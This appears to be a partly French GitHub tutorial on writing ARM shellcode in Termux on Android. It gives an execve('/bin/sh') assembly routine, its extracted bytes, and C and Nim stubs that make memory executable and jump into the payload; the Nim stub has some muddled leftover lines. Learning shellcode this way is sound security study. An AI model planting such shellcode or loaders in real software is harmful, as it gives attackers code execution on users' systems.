 # Shellcode développement 
  shellcode injection 
# Environnement
  ` ~ $> uname -a
Linux 2023 armv8l Android `

  `~ $> Device model:
  RMX3231`

  `~ $> Packages CPU architecture:
  arm `

  `termux-tools/stable 1.39.4 `

# requirements
  ` ~ $> nasm --v
NASM version 2.16.01 compiled on Dec 22 2022`

  ` ~ $> nim --v
Nim Compiler Version 2.0.0 [Android: arm]
Compiled at 2023-08-01
Copyright (c) 2006-2023 by Andreas Rumpf`

  `~ $> ld -v
GNU ld (GNU Binutils) 2.41`

  `~ $> as -v
GNU assembler version 2.41 (arm-linux-androideabi) using BFD version (GNU Binutils) 2.41`

  `~ $> clang/stable 17.0.4 arm `

  `~ $> gcc -v
clang version 16.0.6
Target: armv7a-unknown-linux-android24
Thread model: posix `

# file asm
create a file [shell.s](https://github.com/Dkwebpoint/shellcode/blob/d8a27ade633d2060e7ea94e51a31313262a34ec3/Shell.s)

```
GNU nano 7.2             shell.s
.global _start
.text

_start:
       .code 32
        add r3, pc, #1
        bx  r3

        .code 16
        add r0, pc, #8
        eor r1, r1, r1
        eor r2, r2, r2
        strb r2, [r0, #7]
        mov r7, #11
        svc #1

.ascii "/bin/shX"
```

# Compile and execute:

```
~ $> as shell.s -o shell.o
~ $> ld --help
--- snip --
-N, --omagic        Do not page align data, do not make text readonly.
~ $> ld -N shell.o -o shell
```
![ Use ld -N ](https://github.com/Dkwebpoint/shellcode/blob/be42d7cafd5f195efc91ec5d1cd4022ccbb6128e/IMG_20231109_055637.jpg)
# Extract the shellcode
```
~ $> objcopy -O binary shell shell.bin

~ $> hexdump -v -e '"\\""x" 1/1 "%02x" ""' shell.bin
 ~$>\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x58
```
![extrct the shellcode](https://github.com/Dkwebpoint/shellcode/blob/702defc0e20912539f6ecb994810f9c96dc78e65/IMG_20231109_143924.jpg)

# Shellcode tester 

create a file [ShellTester.c](https://github.com/Dkwebpoint/shellcode/blob/36c5cbee6fddb6f48329b393e88a74c329c25c82/ShellTester.c)

```
GNU nano 7.2                                                 shelltester.c
/**********************************************************************
*
* Program: shelltester.c
*
* Date: 08/11/2023
*
* Purpose: This code is used to provide a C template to paste shellcode
*          into and be able to run it live from within an ELF binary's
*          char buffer. This allows you to create a buffer with the
*          shellcode globally and this program will mark it as RWX using
*          mprotect() and then finally jump into.
*
* gcc -m32 -z execstack shelltester.c -o shellcodetester
*
***********************************************************************/
#include <stdio.h>
#include <unistd.h>
#include <sys/mman.h>

/////////////////////////////////////////////////////
//  source file: shell.s
/////////////////////////////////////////////////////                                                                                        char payload[] = "\x01\x30\x8f\xe2"
                 "\x13\xff\x2f\xe1"
                 "\x02\xa0"
                 "\x49\x40"                                                                                                                                   "\x52\x40"
                 "\xc2\x71"
                 "\x0b\x27"
                 "\x01\xdf"
                 "\x2f\x62\x69\x6e"
                 "\x2f\x73\x68\x58";

int main() {
    // Print the banner.
    puts("\n\t\033[33;1m---===[ Shellcode Tester Stub v1.0 ]===---\033[0m\n");

    // Print the size of the shellcode.                                                                                                          printf(" [\033[34;1m*\033[0m] Shellcode Size:  %d\n", sizeof(payload)-1);

    // Create a function pointer to the shellcode and
    // display it to the user.
    void (*shell)();
        shell=(void (*)())payload;

    printf(" [\033[34;1m*\033[0m] Shellcode Address: %p\n", shell);

    // Calculate the address to the start of the page for the
    // the shellcode.
    void *page_offset = (void *)((int)shell & ~(getpagesize()-1));
    printf(" [\033[34;1m*\033[0m] Shellcode page: %p\n", &page_offset);

    // Use mprotect to mark that page as RWX.
    mprotect(page_offset, 4096, PROT_READ|PROT_WRITE|PROT_EXEC);

    // Finally, use our function pointer to jump into our payload.
    puts("\n\033[33;1m---------[ Begin Shellcode Execution ]---------\033[0m");
    (*shell)();

    // We likely won't get here, but might as well include it just in case.
    puts("\033[33;1m---------[  End Shellcode Execution  ]---------\033[0m");
    return 0;
}
```
# Compile and execute the shellcode with C programme 

```
~ $> gcc -o shelltester -z execstack ShellTester.c

~ $> ./shelltester

```
![execute](https://github.com/Dkwebpoint/shellcode/blob/ec30f234b6aabeda21106e148769ef09001e2b85/IMG_20231112_084450.jpg)

# Compile and execute the shellcode with NIM programme 

create a file [shelltester.nim](https://github.com/Dkwebpoint/shellcode/blob/b0b39c9f74de329dc0391d2f05f8675acedfd4be/shelltester.nim)
```
GNU nano 7.2                           test7.nim
import std/[posix, strformat]
import std/strutils

var
  payload = array[28, byte] [
  byte 0x01,0x30,0x8f,0xe2,0x13,0xff,0x2f,0xe1,0x02,0xa0,0x49,0x40,0x52,0x40,0xc2,0x71,0x0b,0x27,0x01,0xdf,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x58
  ]

  (prot, flag) = (PROT_WRITE or PROT_EXEC, MAP_ANONYMOUS or MAP_PRIVATE)
  tstptr = mmap(nil, sizeof payload, prot, flag, -1, 0)
  tstptr2: pointer
  memad: int

if tstptr != nil:
  echo "Mémoire allouée avec succès a :",tstptr.repr
else:
  echo "Erreur lors de l'allocation de mémoire"                                         copyMem(tstptr, payload[0].addr, sizeof payload)
cast[proc(){.cdecl.}](tstptr)()
echo payload.repr                                                                       echo tstptr.repr # prints hello, world!
echo typeof(tstptr)

memad = cast[int](tstptr) # address, same as the one listed in repr(tstptr)!
tstptr2 = cast[pointer](memad) # generic pointer to address?
tstptr = cast[ptr string](tstptr2) # converting back to pointer to string?
echo tstptr2.repr

echo typeof(tstptr2)
if tstptr != nil:
  echo "Mémoire allouée avec succès a :",tstptr.repr
else:
  echo "Erreur lors de l'allocation de mémoire"

discard munmap(tstptr, sizeof payload)
```
```
~ $> nim compile shelltester.nim
~ $> ./shelltester
```
![nim shelltester programme ](https://github.com/Dkwebpoint/shellcode/blob/b20571cf8ffbd137fc98cc8fffeaf25ca3ca6cb7/IMG_20231112_091203.jpg)

